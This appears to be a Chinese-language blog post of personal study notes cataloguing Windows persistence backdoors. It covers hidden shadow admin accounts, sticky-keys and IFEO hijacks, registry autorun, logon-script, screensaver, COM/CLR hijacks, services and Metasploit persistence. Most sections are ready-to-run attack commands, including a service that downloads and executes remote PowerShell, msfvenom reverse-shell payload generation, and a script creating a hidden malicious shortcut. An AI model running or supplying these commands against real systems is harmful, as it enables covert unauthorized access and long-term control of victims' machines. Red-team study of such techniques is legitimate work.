



# 影子用户

先利用命令创建一个隐藏用户,并将其加入本地管理员组。

```
net user test$ 123456 /add
net localgroup administrators test$ /add
```


可以看到用net user查看不到隐藏的`test$`用户，但是在计算机管理中可以看到



打开注册表:

```
HKEY_LOCAL_MACHINE\SAM\SAM
```


修改Administrator的权限，重启注册表查看


可以看到`test$`用户对应的是3ea，再查看一下DawnT0wn用户的值是3e9


将左边三个导出

`test$`导出为1.reg
000003EA包含`test$`用户的F值，导出另存为2.reg
000003E9包含DawnT0wn用户的F值，导出另存为3.reg

将2.reg中的F值替换为3.reg中的F值，即将test$用户的F值替换为DawnT0wn用户的F值


删除test$

```
net user test$ /del
```


此时已经看不到`test$`用户了

导入注册表

```
regedit /s 1.reg
regedit /s 2.reg
```


3389登录，使用test$用户，但是桌面这些都是DawnT0wn用户的


但是还是会把原用户挤下来，所以可以把guest用户添加到管理员组，然后做guest用户的影子账户，这样更加隐蔽

虽然，net user test$可以看到用户信息，但是无法删除用户，想要删除只能到注册表中进行修改。



想要使用这种方法，必须要有administrator的权限，但是默认administrator被禁用，但是可以使用以下命令激活

```
net user administrator /active:yes
```

有时也需要提权，之后在进行此操作。

网上也有一部分自动化脚本

# 金白银票据

这种之前也了解过，主要是kerberos认证相关，用来做域内权限维持，通过保存TGT，ST票据，通过PTT来控制机器做权限维持

# DLL劫持

这种方式主要是在程序执行加载DLL是替换来达到目的，在劫持的DLL中添加shellcode代码，或者system命令等

在win7及win7以上系统增加了KnownDLLs保护，需要在如下注册表下添加dll才能顺利劫持：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionManager\ExcludeFromKnownDlls
```

# 辅助功能劫持

在windows中其实有很多辅助功能的快捷键，他们都是绑定了对应的程序的，如果把对应程序替换掉，那么快捷方式就可以运行我们想要的程序了

最常见的按5下shift出现的粘滞键Sethc.exe，还有Windows + U组合键时启动的utilman.exe程序

还有:

```
屏幕键盘： C:\Windows\System32\osk.exe
放大镜： C:\Windows\System32\Magnify.exe
旁白： C:\Windows\System32\Narrator.exe
显示切换器 C:\Windows\System32\DisplaySwitch.exe
应用切换器： C:\Windows\System32\AtBroker.exe
```

粘滞键位置：c:\windows\system32\sethc.exe

```
命令：
move sethc.exe sethc1.exe
copy cmd.exe sethc.exe
```

在win10中需要获取TrustedInstaller才能修改sethc.exe

# 映像劫持

在高版本中需要TrustedInstaller权限，我们需要用到IFEO，所谓的IFEO就是Image File Execution Options，直译过来就是映像劫持。它又被称为“重定向劫持”（Redirection Hijack），它和“映像劫持”（Image Hijack，或IFEO Hijack）只是称呼不同，实际上都是一样的技术手段。白话来讲就是做某个操作的时候被拦截下来，干了别的事。

注册表位置：HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\

在此注册表位置添加项 sethc.exe，添加 debugger 键的值为 c:\windows\system32\cmd.exe


在此注册表位置添加项 sethc.exe，添加 debugger 键的值为 c:\windows\system32\cmd.exe

```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v "Debugger" /t REG_SZ /d "c:\windows\system32\cmd.exe" /f
```


windows defender的防篡改会有影响，需要关掉，可以看到外面本机是粘滞键，虚拟机是cmd


# 屏幕保护程序后门

屏幕保护程序是具有.scr 文件扩展名的可执行文件，并通过 scrnsave.scr 实用程序执行。

注册表位置：HKEY_CURRENT_USER\Control Panel\Desktop

```
SCRNSAVE.EXE为默认的屏保程序，我们可将此键值设置为我们要利用的恶意程序。在本质上，.scr文件是可执行文件。
ScreenSaveActive表示屏保状态，1为启动，0为关闭。
ScreenSaverTimeout表示屏幕保护程序启动前系统的空闲事件，单位为秒，默认为900(15分钟)。
ScreenSaverIsSecure默认参数为0，标识不需要密码即可解锁。
```

修改 SCRASAVE.EXE 的值为后门程序路径，等待屏保时间自动运行。

```
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "c:\666.exe" /f
```

这里因为会有时间的关系，我就直接用网上的图了


# 计划任务

Windows实现定时任务主要有schtasks与at二种方式: At 适用于windows xp/2003，Schtasks适用于win7/2008或者以后

taskschd.msc查看计划任务


每五分钟执行一次

```
schtasks /create /sc minute /mo 5   /tn "sd" /tr C:\Windows\System32\cmd.exe
```


# logon scripts 后门

Windows登录脚本，当用户登录时触发，Logon Scripts能够优先于杀毒软件执行，绕过杀毒软件对敏感操作的拦截。

注册表位置:

```
HKEY_CURRENT_USER\Environment
```

```
REG ADD "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /t REG_SZ /d "C:\666.exe"    #创建键为：UserInitMprLogonScript，其键值为我们要启动的程序路径
```


# 文件关联

文件关联就是将一种类型的文件与一个可以打开它的程序建立起一种依存关系，一个文件可以与多个应用程序发生关联。可以利用文件的"打开方式"进行关联选择。

我们可以用assoc命令显示或修改文件扩展名关联，我们可以看一下.txt文件的关联。

```
assoc .txt
```


用ftype命令显示或修改用在文件扩展名关联中的文件类型。

```
ftype txtfile
```

可以看到txt关联的程序是notepad.exe

修改\HKEY_CLASS_ROOT\txtfile\shell\open\command的默认值为我们要执行的程序

修改注册表（管理员权限）：

```
reg add "HKCR\txtfile\shell\open\command" /ve /t REG_EXPAND_SZ /d "C:\Windows\system32\cmd.exe %1
```



关联后默认的程序就是cmd


# CLR劫持

CLR 全称 Common Language Runtime，中文名称为公共语言运行时。CLR 是.NETFramework 的主要执行引擎，作用之一是监视程序的运行。可以理解为，系统在执行`.NET`程序是先加载一个指定的dll文件

```
修改注册表：HKEY_CURRENT_USER\Software\Classes\CLSID\

REG ADD "HKEY_CURRENT_USER\Software\Classes\CLSID\{11111111-1234-1234-1234-111111111111}\InProcServer32" /VE /T REG_SZ /D "C:\Dll1.dll" /F
REG ADD "HKEY_CURRENT_USER\Software\Classes\CLSID\{11111111-1234-1234-1234-111111111111}\InProcServer32" /V ThreadingModel /T REG_SZ /D Apartment /F
```


配置全局环境变量，不然只在当前 cmd 窗口劫持.net 程序，然后直接执行 powershell 即可上线。

```
SETX COR_ENABLE_PROFILING 1 /M
SETX COR_PROFILER {11111111-1234-1234-1234-111111111111} /M
```

不知道是不是win10的原因，这里我没有劫持成功，但是看了很多篇都是这样做的，记录一下吧

# COM劫持

CLSID是微软提出的一个概念，中文翻译为：全局唯一标识符。CLSID是指Windows系统对于不同的应用程序，文件类型，OLE对象，特殊文件夹以及各种系统组件分配的一个唯一表示它的ID代码，用于对其身份的标识和与其他对象进行区分。

一些常见的CLSID

```
{20D04FE0-3AEA-1069-A2D8-08002B30309D} 我的电脑
{450D8FBA-AD25-11D0-98A8-0800361B1103} 我的文档
{645FF040-5081-101B-9F08-00AA002F954E} 回收站
```

通过`WIN+R`调用，输入**::{450D8FBA-AD25-11D0-98A8-0800361B1103}**，回车确认后打开我的文档。

COM组件在被调用加载过程中会寻找注册表三个位置：

1. HKCU\Software\Classes\CLSID\{CLSID}
2. HKCR\CLSID\{CLSID}
3. HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\ShellCompatibility\Objects\{CLSID}

每一个CLSID键下会有一个基本子键`LocalServer32`或`InprocServer32`，它两的键值代表该COM组件提供的功能。其中`LocalServer32`的默认键值一般表示可执行文件(exe)的路径，而`InprocServer32`的默认键值表示动态链接库(DLL)的路径。


COM调用加载过程很直观的可以看出理论上可行的3种劫持方案：

- HKCR中有，而HKCU中没有，只需要在HKCU中注册即可劫持HKCR中的COM服务。
- 修改掉`LocalServer32`或`InprocServer32`的键值。
- 替换掉`LocalServer32`或`InprocServer32`的键值中的文件。

其实相对来说可以看到，COM劫持其实可以理解为比CLR劫持少了一步添加注册表项的操作，而是直接修改其他组件的内容

# 关闭程序触发

关闭notepad.exe进程时执行对应exe 。
为此，我们需要在 cmd 中执行 3 个命令：

```js
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\Users\Public\Temp\shell.exe"
```

# link文件快捷键

如果在用户桌面上放置了带有激活键的快捷方式，则每次通过调用指定的组合键来执行该快捷方式。


由于我们桌面快捷方式中的CTRL+C快捷键优先于Windows原本的CTRL+C，所以可以将快捷方式的快捷键设置为常用的windows快捷键来破坏原有的快捷键，并且把目标位置设置为后门位置，这样在使用快捷键的时候就会调用对应的后门程序

但是资源管理器只允许以 CTRL+ALT 组合开头的快捷方式。其他组合需要通过 COM 以编程方式设置。

以下 PowerShell 脚本可用于创建带有自定义激活密钥的恶意快捷方式：

```js
$path                      = "$([Environment]::GetFolderPath('Desktop'))\FakeText.lnk"
$wshell                    = New-Object -ComObject Wscript.Shell
$shortcut                  = $wshell.CreateShortcut($path)
$shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"
$shortcut.TargetPath       = "cmd.exe"
$shortcut.Arguments        = "/c calc.exe"
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey           = "CTRL+C"
$shortcut.Description      = "Nope, not malicious"
$shortcut.WindowStyle      = 7
                           # 7 = Minimized window
                           # 3 = Maximized window
                           # 1 = Normal    window
$shortcut.Save()
(Get-Item $path).Attributes += 'Hidden' # 
```

如果我们想让快捷方式不可见可以这样设置

在第 1 行，我们声明了一个指向受害者桌面目录的变量path。之后，我们开始慢慢修改我们的快捷方式以满足我们的需求。首先给它一个信任度高的图标，将它设置为执行恶意代码（用来演示的calc.exe）并将窗口样式设置为最小化，以便在执行快捷方式后不弹出命令提示符。此外，我们还可以通过设置Hidden属性使快捷方式在桌面隐藏。


使用ctrl+c的时候弹出计算器

# 启动项/服务后门

## 开始菜单启动项

windows有开机自启目录

```
C:\Users\xxx\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

相关键值

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```


**注册表启动项**

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

HKEY_CURRENT_USER的改动不需要管理员权限，更改HKEY_LOCAL_MACHINE需要管理员权限

修改HKLM（需要管理员权限），添加一个启动项为cmd程序

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run   /v "123" /t REG_SZ /d "C:\Windows\System32\cmd.exe" /f
```

## 自启动服务后门

windows的服务基本上运行在后台，且有SYSTEM权限，可以用来做持久化后门，将EXE或者DLL注册成服务

通过如下命令行方式添加一个服务

```
sc create "SD" binpath="C:\shell.exe" 
sc description "SD" "description" 设置服务的描述字符串 
sc config "SD"   start= auto  设置这个服务为自动启动 
net start "SD"   启动服务
```

删除服务:

```
sc delete "SD"
```

通过服务设置自启动，结合powershell实现无文件后门。

使用以下命令可实现：

```
sc create "KeyName" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\""

sc description  KeyName "Just For Test"   //设置服务的描述字符串
sc config Name start= auto                //设置这个服务为自动启动
net start Name        
```

但是！不是所有程序都可以作为服务的方式运行，因为作为服务运行需要能返回运行情况等信息，所以有的程序添加后会出现以下提示：
Windows无法启动 XXX 服务（位于 本地计算机上）。错误1053:服务没有及时响应启动或者控制请求。

可以参考http://www.x2009.net/articles/create-a-windows-service-methods.html#/

# bitadmin

Microsoft提供了一个名为“ bitsadmin ” 的二进制文件和PowerShell cmdlet，用于创建和管理文件传输。

可以通过从“ bitsadmin ”实用程序执行以下命令来实现持久性。

1. 在创建参数需要作业的名称

2. 该addfile需要文件的远程位置和本地路径（这里我都用的本地地址）

3. 该SetNotifyCmdLine将执行的命令

4. 所述SetMinRetryDelay定义设置 BITS 作业的最小重试延迟为 60 秒

5. 该简历参数将运行位工作。

   ```
   bitsadmin /create test
   bitsadmin /addfile test c:\windows\system32\calc.exe c:\Users\DawnT0wn\Desktop\calc.exe
   bitsadmin /SetNotifyCmdLine test cmd.exe "cmd.exe /c calc.exe"
   bitsadmin /SetMinRetryDelay "test" 60 
   bitsadmin /resume test
   ```


开始windows的实时保护没有关掉所以拒绝访问了

# 进程注入

metasploit有个功能叫auto migrate 可以自动把meterpreter移动到其他进程

如果是user权限可以考虑注入exploer.exe 如果是system权限则可以注入winlogon或者lassa

```
migrate pid
```

自动迁移指一反弹shell就自动执行进程迁移命令，在配置监听器的时候可以设置

```
set autorunscript migrate -N explorer.exe
或
set autorunscript -f
```

当然CS也有对应的方法，主要是将进程迁移到一些系统的进程中来进行隐藏，这样后门进程被关掉后，对方机器还是是上线的

# WMI构造无文件后门


# msf persistence 后门

```
使用 persistence 模块创建后门。

参数：
-A 自动启动匹配的exploit/multi/handler 连接到代理
-L <opt> 目标主机中要写入有效负载的位置，如果没有，将使用 %TEMP%。
-P <opt> 要使用的有效负载，默认为 windows/meterpreter/reverse_tcp。
-S 在启动时自动启动代理作为服务（具有 SYSTEM 权限）
-T <opt> 要使用的备用可执行模板
-U 用户登录时自动启动代理
-X 系统启动时自动启动代理
-h 帮助菜单
-i <opt> 每次连接尝试之间的时间间隔（以秒为单位）
-p <opt> 运行 Metasploit 的系统正在监听的端口
-r <opt> 运行 Metasploit 的系统的 IP 监听连接
```

拿到meterpreter后，执行如下命令，在目标机创建一个 vbs 后门，每 5 秒进行回连

```
run persistence -S -U -X -i 5 -p 55555 -r 192.168.1.128
```

偷了一幅图


# 组策略设置脚本启动

gpedit.msc打开组策略，设置登录的时候执行的脚本


可以设置为bat脚本

先生成msf木马上传到目标机器

```
msfvenom -p windows/x64/meterpreter/reverse_http lhost=192.168.52.130 lport=3333 -f psh -o shell.ps1
```

创建bat脚本

```
@echo off
powershell.exe ­-w hidden ­-ExecutionPolicy Bypass ­-NoExit ­-File C:\Users\Administart\Desktop\shell.ps1
exit
```

然后添加到组策略启动，重启后就可以上线


参考链接：

https://asants.com/blogx_135.html#/

https://www.wangan.com/p/7fy7fgbd4d434cb3

https://xz.aliyun.com/t/9718

https://bu1.github.io/2021/11/27/COM%E7%BB%84%E4%BB%B6%E5%8A%AB%E6%8C%81%E5%AD%A6%E4%B9%A0%EF%BC%9A%E4%BB%8E%E5%88%9D%E8%AF%86%E5%88%B0%E7%AE%80%E5%8D%95%E5%88%A9%E7%94%A8/#/

http://www.x2009.net/articles/create-a-windows-service-methods.html#/